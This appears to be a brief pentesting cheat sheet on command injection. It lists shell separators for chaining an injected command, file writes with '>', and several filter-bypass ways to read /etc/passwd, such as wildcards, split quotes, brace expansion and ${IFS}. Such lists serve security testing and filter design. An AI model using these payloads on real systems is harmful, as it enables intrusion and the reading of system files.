 # Command Injection

- concat commands
  ```
  ;
  &
  &&
  |
  ||
  newline (0x0a, \n, %0a)
  ```
- write to file with ``>``
- filter bypass
  ```
  cat /etc/passwd
  cat /etc/pa??wd
  cat /etc/pa*wd
  cat /et’ ‘c/passw’ ‘d
  cat /et$()c/pa$()$swd
  {cat,/etc/passwd}
  cat${IFS}/etc/passwd
  ```
